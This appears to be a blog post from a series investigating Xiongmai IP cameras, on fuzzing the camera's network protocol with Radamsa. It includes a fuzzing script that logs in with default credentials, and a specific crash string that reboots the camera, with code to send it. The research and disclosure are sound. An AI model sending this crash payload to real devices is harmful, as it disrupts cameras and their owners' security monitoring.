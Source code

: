 ```yaml
---
layout: post
title:  "Xiongmai - An Investigative Journey 7 - Fuzzing With Radamsa"
date:   2019-09-04 06:00:00 +0100
tags: xiongmai, hacking, ipc
permalink: /xiongmai/7
---
```

I'd never heard of this tool, until I happened to stumble upon it in a [LiveOverflow](https://www.youtube.com/watch?v=kMu1J8QdxE8) video. The tool is, very neat to say the least. It takes an input "sample" data, and mutates it in various ways to cause potential bad behavior in an application.

From the previous behavioral fuzzing we did, we know what commands are available by default, so we should fuzz those specific items to see if we can get them to misbehave.

<pre><code class="crystal">
File.open("./rsrc/op_monitor.txt", "w+") do |file|
  file.print Command::OPMonitor.new(session_id: 0xabcdef00_u32).to_s
end

File.open("./logs/radamsa/op_monitor.log", "w+") do |file|
  puts "Testing connection"
  socket = MagicSocket.new("192.168.11.109", 34567)
  socket.login "default", Dahua.digest("tluafed")
  xmm = Command::OPMonitor.new
  socket.send_message xmm
  puts "SENT: #{xmm.message}"
  reply = socket.receive_message
  puts "GOT: #{reply.message}"

  1000.times do |x|
    begin
      socket = MagicSocket.new("192.168.11.109", 34567)
      socket.login "default", Dahua.digest("tluafed")
      message = `radamsa ./rsrc/op_monitor.txt`
      file.puts "SENT: #{message.inspect}"
      socket.send message
      reply = socket.receive_message
      file.puts "GOT: #{reply.message.inspect}"
    rescue e : MagicError::SocketException
      puts "SOCKET DOWN! #{e.inspect}"
      raise e
    rescue e : MagicError::Exception
      file.puts "ERROR: #{e.inspect}"
      puts "ERROR: #{e.inspect}"
    rescue e
      file.puts "BAD ERROR: #{e.inspect}"
      puts "BAD ERROR: #{e.inspect}"
    end
  end
end
</code></pre>

I make a message for OPMonitor, and output it to a file, then send that file through Radamsa, and send it's fuzzing data to the camera. Within about 100 or so tries, it ended up finding a way to disrupt the client and the camera server for about 120 seconds while the camera reboots. This string takes the camera down via ping, connection, etc. This means the camera itself actually get rebooted.

<pre><code class="crystal">
crash_string = "\xFF\u0001\u0000\u0000\u0000\xEF\xCD\xAB\u0000\u0000\u0000\u0000\u0000\u0000\x85\u0005\xA0\u0000\u0000\xE1\u0000{\"Name\":\"OPMonitor\",\"OPMonitor\",\"OPMonitor\":{\"Action\":\"Claim\",\"Parmeter\":{\"Channel\":0,\"CombinModeใ\":\"N󠁢ONE\",\"Parmeter\":{\"Channel\":0,\"CombinModeใ\":\"N󠁢ONE\",\"Stre amT\u000E\xFE\xFFype\":\"Main\",\"TransMode\":\"TCP\"}},\"Sess󠁎ionID\":\"4294967296xAbcdef256\"}"
socket = MagicSocket.new("192.168.11.109", 34567)
socket.login "default", Dahua.digest("tluafed")
socket.send crash_string
puts "SENT: #{crash_string.inspect}"
reply = socket.receive_message
puts "GOT: #{reply.message}"
</code></pre>

Already Radamsa has helped us find a new and exciting vulnerability.

## Final notes on fuzzing

We can say for certain that there are some oddities and inconsistencies about how this protocol works, which tends to be good for the red team. The stranger the protocol the more likely someone made a mistake somewhere along the way. There seems to be a lot of potential for that since the protocol acts so erratically. 